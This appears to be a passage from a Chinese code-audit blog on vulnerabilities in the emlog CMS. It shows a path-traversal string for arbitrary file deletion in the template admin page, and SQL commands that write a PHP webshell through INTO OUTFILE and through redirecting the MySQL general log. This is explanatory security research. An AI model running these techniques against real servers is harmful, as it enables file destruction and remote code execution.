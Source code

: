 拼接后就是：
```
../content/plugins//../../robots.txt
```
验证：

![](https://img-blog.csdnimg.cn/20210709145605885.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


## 删除模板处
定位：/admin/template.php

![](https://img-blog.csdnimg.cn/20210709145626429.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
可以看到还是用到了emDeleteFile函数，虽然这里有addslanshes函数
```
过滤 ' " \ %00 对 .. /没有作用
```

抓包：

![](https://img-blog.csdnimg.cn/2021070914572594.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# SQL-webshell

都是在数据备份处利用

## 数据备份处sql写马
/admin/data.php

由于写马需要路径，不太好利用，不截图了，记一下

直接写文件：
```
SELECT "<?php phpinfo(); ?>" INTO outfile "E:\php\PHPTutorial\WWW\emlog\shell.php";
```

不仅需要 `root 权限`，还需要`关闭 --secure-file-priv(不是null，是关闭 off)`


## 日志写马
```
set global general_log = 'on'	# 开启日志

set global general_log_file = 'D:/application/phpstudy_pro/www/1.php'	# 设置日志路径，保存为PHP文件

select '<?php phpinfo(); ?>'  # 执行后会写入到日志中
```

---
# XSS
